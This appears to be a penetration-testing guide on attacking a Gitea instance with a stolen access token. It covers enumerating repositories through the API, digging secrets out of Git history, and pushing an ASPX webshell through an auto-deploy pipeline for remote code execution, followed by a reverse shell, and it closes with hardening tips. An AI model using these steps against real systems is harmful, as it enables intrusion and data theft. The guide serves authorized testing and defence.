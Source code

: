 # Gitea Enumeration & Attacks

{{#include ../../banners/hacktricks-training.md}}

## Overview

This page covers practical techniques to enumerate and abuse a Gitea instance after obtaining credentials or a personal access token. It focuses on:
- Recovering secrets from Git history (commit diffs)
- Discovering and using the REST API via /api/swagger
- Authenticating to the API with personal access tokens
- Enumerating repositories and repository contents
- Abusing CI/CD auto-deploy pipelines to turn repo write access into arbitrary file write on the production web server (leading to webshell RCE on IIS/ASP.NET; generalizes to PHP/JSP/etc.)

> Note: General background on Gitea accounts, tokens, SSH/GPG, and branch protections is in:
> basic-gitea-information.md

## API Discovery (Swagger)

Gitea ships interactive API docs at:
- http(s)://<gitea-host>/api/swagger

Use it to identify useful endpoints under /api/v1 such as:
- GET /user/repos – list repositories visible to the authenticated user
- GET /repos/{owner}/{repo}/contents – list/inspect repository contents

## API Authentication with Personal Access Tokens

Personal access tokens act as full user credentials for API usage (and Git over HTTPS). Two commonly accepted HTTP Authorization header formats:
- Authorization: token <TOKEN>
- Authorization: Bearer <TOKEN>

Example: list repositories for the authenticated user:

```bash
curl -sS http://gitea.local:3000/api/v1/user/repos \
  -H "Authorization: token $GITEA_ACCESS_TOKEN" | jq '.[].full_name'
```

Cloning over HTTPS with a token in the URL (works when basic auth is enabled):

```bash
# Format: https://<token>@<host>/<owner>/<repo>.git
# Or http://<token>@...

git clone http://${GITEA_ACCESS_TOKEN}@gitea.local:3000/owner/private-site.git
```

## Enumerate Repositories

List repos visible to the token:

```bash
curl -sS http://gitea.local:3000/api/v1/user/repos \
  -H "Authorization: token $GITEA_ACCESS_TOKEN" | jq -r '.[].full_name'
```

Get details on a specific repo:

```bash
curl -sS http://gitea.local:3000/api/v1/repos/owner/repo \
  -H "Authorization: token $GITEA_ACCESS_TOKEN" | jq .
```

## Enumerate Repository Contents

List top-level files and directories:

```bash
curl -sS http://gitea.local:3000/api/v1/repos/owner/repo/contents \
  -H "Authorization: token $GITEA_ACCESS_TOKEN" | jq -r '.[].name'
```

Read a specific file (content is base64-encoded in the content field):

```bash
curl -sS http://gitea.local:3000/api/v1/repos/owner/repo/contents/README.md \
  -H "Authorization: token $GITEA_ACCESS_TOKEN" |
  jq -r .content | base64 -d
```

Tip: You can add a ref query parameter to target a specific branch/commit:

```bash
curl -sS 'http://gitea.local:3000/api/v1/repos/owner/repo/contents/path/to/file?ref=main' \
  -H "Authorization: token $GITEA_ACCESS_TOKEN" | jq -r .content | base64 -d
```

## Git History Secret Recovery

Developers often “remove” secrets by committing a follow-up change, but the original secret remains in history:

- Use the web UI to browse commits and diffs for removed tokens/keys
- Or locally clone and search commit history:

```bash
# Shallow clone first, then deepen if needed
git clone --depth 50 http://gitea.local:3000/owner/public-repo.git
cd public-repo

# Show recent diffs
git log -p

# Examine a specific commit’s diff
git show <commit_id>

# Grep for likely secrets (adjust patterns)
git log -p | grep -E "(?i)(token|secret|apikey|password)"
```

If you recover a valid Gitea personal access token, pivot to the API using the techniques above to enumerate private repos/contents.

## Abusing CI/CD Auto-Deploy Pipelines → Arbitrary File Write → Webshell RCE

If a repository is configured so that pushing changes automatically deploys to production (for example via Gitea Actions, webhooks, or an external runner), having write access to that repo effectively provides an arbitrary file write primitive on the target system.

For IIS/ASP.NET sites, you can achieve command execution by deploying a server-side file such as an .aspx webshell into the web root.

Example workflow (IIS/ASP.NET):

```bash
# 1) Clone the private website repo using the recovered token
export GITEA_ACCESS_TOKEN="<token>"

git clone http://${GITEA_ACCESS_TOKEN}@gitea.local:3000/owner/website.git
cd website

# 2) Add an ASPX webshell to the repo root (served by IIS)
cp /path/to/webshell-LT.aspx shell.aspx

git add shell.aspx
git commit -m "update"

# 3) Push changes; the CI/CD auto-deploy will publish to IIS
git push

# 4) Trigger OS commands via the new endpoint
#    Example: visit http://target/shell.aspx and execute a PowerShell payload
```

Notes and generalizations:
- For PHP/JSP sites, deploy an appropriate server-side webshell (e.g., .php or .jsp)
- If the pipeline sanitizes certain extensions, look for other code execution paths (for example, upload a web.config to map handlers or abuse existing build steps)
- Consider indirect file write through assets that the application processes

Example ASPX webshell used in the wild:
- [https://github.com/grov/webshell/blob/master/webshell-LT.aspx](https://github.com/grov/webshell/blob/master/webshell-LT.aspx)

Once the webshell is live, paste a PowerShell reverse shell (for example, generated at https://www.revshells.com/) to get an interactive session.

## Hardening Tips (Defenders)
- Do not auto-deploy unreviewed commits to production; require code review and approvals
- Store secrets out of Git history; rotate any token/secret removed from a repo
- Protect branches and enforce CI policies; minimize who has write access
- Scope and rotate personal access tokens; monitor /api/v1 usage
- Audit webhooks and deployment runners; restrict what file types can be deployed

## References

- [HTB: Lock (0xdf) – Gitea token → CI/CD to IIS RCE](https://0xdf.gitlab.io/2025/08/21/htb-lock.html)
- [Gitea API Swagger](https://try.gitea.io/api/swagger)
- [Gitea API usage docs](https://docs.gitea.com/development/api-usage)
- [ASPX LT webshell PoC](https://github.com/grov/webshell/blob/master/webshell-LT.aspx)
- [Reverse shell payload helper](https://www.revshells.com/)

{{#include ../../banners/hacktricks-training.md}}

